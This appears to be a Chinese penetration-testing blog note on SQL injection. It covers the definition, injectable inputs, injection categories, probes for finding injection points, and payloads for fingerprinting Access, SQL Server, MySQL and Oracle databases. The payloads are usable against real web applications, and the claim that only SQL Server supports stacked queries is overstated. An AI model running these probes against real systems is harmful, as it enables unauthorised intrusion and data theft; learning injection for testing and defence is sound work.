 ```yaml
---
draft: false
date: 2016-06-19 20:18:48
title: SQL 注入
description: 
categories:
  - Pentest
tags:
  - SQL注入
---
```


### 0x00 含义
sql注入是将代码插入(拼接)到应用(用户)的输入参数中，之后再将这些参数传递给后台的SQL服务器加以解析并执行的攻击，

总结起来就是攻击者将恶意代码拼接到sql语句并加以执行从而得到数据的过程。

### 0x01 成因
SQl语句未对用户参数进行严格过滤

### 0x02 可引发注入的地方
其实只要是客户端可控、参数值代入数据库查询的地方都可能存在注入，常见的如下，按出现频率排序：

* GET
* POST
* X-Forwarded-For
* Cookie
* User-Agent

### 0x03 注入分类
* 根据语法(较权威)
    * UNION query SQL injection(可联合查询注入)  
        只要页面有显示位即可使用，且注入速度很快
    * Error-based SQL injection(报错型注入)  
        没有显示位但用echo "mysql_error()"输出了错误信息，速度很快，但是语句较复杂
    * Boolean-based blind SQL injection(布尔型注入)  
        一次一个字节，速度慢，但只要有注入就能用
    * Time-based blind SQL injection(基于时间延迟注入)  
        超级慢，比布尔型注入慢几倍，但是通用性较强
    * Stacked queries SQL injection(堆叠注入)  
        只有SQL Server可以使用(可多语句查询注入)

* 根据类型
    * 整形  
        形如```"a.asp?ID=55"```，这类注入的参数是"数字"，因此称为"数字型注入点"。
    * 字符串型  
        形如```"b.asp?name=xiaoming"```这类注入的参数是"字符"，称为"字符型"注入点。  
    * 搜索型  
        指在进行数据搜索时没过滤搜索参数，直接通过搜索框表单提交。  

### 0x04 查找注入点
* 在URL中
    * and 1=1/and 1=2(整型)
    * 随即输入(整型)
    * -1/+1 回显上下页面(整型)
    * 单引号(字符型/整型)
    * and sleep(5) (判断页面返回时间)

* 在http头
    * X-Forwarded-For
    * Cookie
    * User-Agent

### 0x05 SQL注入之判断数据库类型
* 常见手段
    * 扫描端口、指纹、抓包查看http头信息、在网址后面直接判断

* 根据各数据库特有函数判断
    * Access:
    ```
    and (select count(*) from MSysAccessObjects)>0   返回正常说明是access
    and exists(select count(*) from表)
    ID=1 and (select count (*) from sysobjects)>0 返回异常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ```

    * SQLServer:
    ```
    and (select count(*) from sysobjects) >0   返回正常说明是mssql
    ID=1 and (select count (*) from sysobjects)>0 返回正常
    ID=1 and (select count (*) from msysobjects)>0返回异常
    ID=1 and left(version(),1)=5%23  //红色字体也可能是4
    ID=1 and exists(select id from sysobjects)
    ID=1 and len(user)>0 
    ID=1 CHAR(97)+CHAR(110)+CHAR(100)+CHAR(32)+CHAR(49)+CHAR(61)+CHAR(49)
    ```

    * MySQL:
    ```
    and length(user())>0   返回正常说明是MySQL
    id=2 and version()>0 返回正常
    id=2 and length(user())>0
    id=2 CHAR(97, 110, 100, 32, 49, 61, 49)
    ```

    * ORACLE:
    ```
    ID=1  and '1'||'1’='11'
    ID=1  and 0<>(select count(*) from dual) 
    ID=1 CHR(97) || CHR(110) || CHR(100) || CHR(32) || CHR(49) || CHR(61) || CHR(49)
    ```

* 其他方法
    ```
    "/*"是MySQL中的注释符，返回错误说明该注入点不是MySQL，继续提交如下查询字符：
    "--"是Oracle和MSSQL支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：
    ";"是子句查询标识符，Oracle不支持多行查询，因此如果返回错误，则说明很可能是Oracle数据库。
    ```
